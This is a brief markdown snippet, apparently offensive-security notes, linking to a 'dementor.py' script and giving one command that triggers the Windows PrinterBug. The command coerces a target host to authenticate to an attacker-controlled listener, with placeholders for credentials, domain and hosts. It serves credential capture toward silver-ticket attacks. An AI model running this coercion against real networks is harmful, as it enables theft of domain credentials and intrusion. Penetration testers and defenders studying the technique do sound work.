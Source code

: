 ### source
https://raw.githubusercontent.com/NotMedic/NetNTLMtoSilverTicket/master/dementor.py  

### trigger printerbug authentication
```
python3 dementor.py -u <user> -p <password> -d <domain> <lhost> <rhost>
```

